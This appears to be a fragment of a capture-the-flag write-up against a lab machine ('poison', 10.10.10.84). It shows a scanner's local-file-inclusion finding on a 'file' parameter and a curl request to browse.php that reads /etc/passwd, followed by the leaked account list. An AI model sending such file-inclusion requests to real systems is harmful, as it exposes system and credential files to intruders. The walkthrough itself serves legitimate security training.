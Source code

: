 #::VULN INFO #

# [GET PARAM] file #

# [PATH] /usr/local/www/apache24/data #

# [OS] Unix #

# [TYPE] Absolute Clean #

# [TRUNCATION] No Need. It's clean. #

# [READABLE FILES] #

# [0] /etc/passwd #

########################################################</pre>
Got access to the /etc/passwd file
<pre>[root:~/Desktop/poison]# curl -s http://10.10.10.84/browse.php\?file\=/etc/passwd

root:*:0:0:Charlie &amp;:/root:/bin/csh

toor:*:0:0:Bourne-again Superuser:/root:

daemon:*:1:1:Owner of many system processes:/root:/usr/sbin/nologin

operator:*:2:5:System &amp;:/:/usr/sbin/nologin

bin:*:3:7:Binaries Commands and Source:/:/usr/sbin/nologin

tty:*:4:65533:Tty Sandbox:/:/usr/sbin/nologin

kmem:*:5:65533:KMem Sandbox:/:/usr/sbin/nologin

games:*:7:13:Games pseudo-user:/:/usr/sbin/nologin

news:*:8:8:News Subsystem:/:/usr/sbin/nologin

man:*:9:9:Mister Man Pages:/usr/share/man:/usr/sbin/nologin

sshd:*:22:22:Secure Shell Daemon:/var/empty:/usr/sbin/nologin

smmsp:*:25:25:Sendmail Submission User:/var/spool/clientmqueue:/usr/sbin/nologin

mailnull:*:26:26:Sendmail Default User:/var/spool/mqueue:/usr/sbin/nologin

bind:*:53:53:Bind Sandbox:/:/usr/sbin/nologin

unbound:*:59:59:Unbound DNS Resolver:/var/unbound:/usr/sbin/nologin

proxy:*:62:62:Packet Filter pseudo-user:/nonexistent:/usr/sbin/nologin
